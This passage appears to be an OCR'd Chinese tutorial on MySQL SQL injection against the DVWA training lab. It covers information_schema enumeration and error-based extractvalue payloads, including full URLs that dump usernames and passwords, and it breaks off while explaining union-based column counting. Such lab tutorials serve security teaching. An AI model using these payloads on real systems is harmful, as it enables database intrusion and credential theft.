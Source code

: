      

    **0x11 MySQL****内建数据库：**

    当mysq版本大于5.0的时候，会存在一个内建数据库——information_schema，存了很多数据库字段、数据表等的相关信息。

    其中最常用的数据表是columns，从字面意思上来看，是字段名，但是这张数据表里也存了字段所在表，及所在数据库的信息。

    举个例子，我要提取所有的数据库名：

    select group_concat(distinct table_schema) from information_schema.columns;

    提取 dvwa 数据库中所有的表名：

    select group_concat(distinct table_name) from information_schema.columns where table_schema='DVWA';

     

    **0x12 报错注入：**

    mysql中有三种报错注入——floor、extractValue、updateXml。仅用extractValue来举个例子。

    提交后，MySQL报错，按照上面的结论，为报错注入。

    基础注入语句：and extractvalue(1, concat(0x5c, (  select table_name from information_schema.tables limit 1  )));

    \1. 爆数据库

    <http://127.0.0.1:8080/dvwa/vulnerabilities/sqli/?Submit=Submit&>id=1' and 
    extractvalue(1, concat(0x5c, (   select table_schema from information_schema.columns group by table_schema limit 2,1      )))--+

    可以通过更改注入语句中的limit来爆出不同的数据库

    \2. 爆数据表

    和爆数据表是一个原理

    \3. 爆表中字段

    XPATH报错的对长度有一些限制，那还是一个一个的来

    <http://127.0.0.1:8080/dvwa/vulnerabilities/sqli/?Submit=Submit&>id=1' and 
    extractvalue(1, concat(0x5c, ( select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 1,1 )))--+

    \4. 爆数据

    根据上一次爆出的字段信息，去对应的数据表爆数据。这里可以用concat将需要爆的字段连接在一起组团爆出来~~

    <http://127.0.0.1:8080/dvwa/vulnerabilities/sqli/?Submit=Submit&id=1>' and 
    extractvalue(1, concat(0x5c, ( select concat(user,0x5c,password) from users limit 1 )))--+

     

    **0x13 union注入：**

    个人比较喜欢用union~~union的时候，要求：两次查询的列数必须一致。所以要先想办法知道第一次查询了多少列~

    \1. 判断列数

    <http://127.0.0.1:8080/dvwa/vulnerabilities/sqli_blind/?Submit=Submit&id=1>' order by 1 --+

    不断修改order by的数字，直到页面报错，或者页面发生变化，临界的数字即为列数

